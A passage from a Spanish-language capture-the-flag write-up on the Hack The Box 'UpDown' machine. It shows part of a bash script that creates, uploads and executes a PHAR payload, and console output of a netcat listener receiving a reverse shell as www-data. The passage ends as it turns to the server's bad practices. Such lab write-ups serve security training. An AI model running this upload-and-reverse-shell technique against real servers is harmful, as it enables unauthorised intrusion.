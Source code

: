 ```bash
  if [[ $key = "" ]]; then
    execute_file
  fi
}

# main flow
# ---------
echo "[*] Creating file: $file_name";
create_file
echo "[*] Uploading file";
upload_file
echo "[+] Executing payload";
alert_listen_mode
```

> Puedes encontrar el script en mi repositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Updown/www-data)
{: .prompt-info}

> Solo tuve que agregar la ruta `http://url.fake` que me daba una respuesta en 10 segundos, suficiente para abrir una consola y ponernos en escucha
{: .prompt-tip}

Ahora solo ejecutamos el script y recivimos una shell como el usuario `www-data`:

```console
❯ bash www-data_shell.sh

Description: reverse shell to user www-data

[*] Use: www-data_shell.sh ip-address port

❯ bash www-data_shell.sh 10.10.14.155 1234
[*] Creating file: rce.phar
[*] Uploading file
[+] Executing payload

Open port 1234 to receive the shell (g.e nc -lvnp 1234)
Press ENTER to continue

[*] Searching file in http://dev.siteisup.htb/uploads/c6087c74c29b91be0ffd2edcabf58e2e/rce.phar:


────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.177.
Ncat: Connection from 10.10.11.177:55304.
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev/uploads/c6087c74c29b91be0ffd2edcabf58e2e$ whoami
whoami
www-data
```
Con respecto a las malas prácticas que nos permitieron el acceso al servidor:
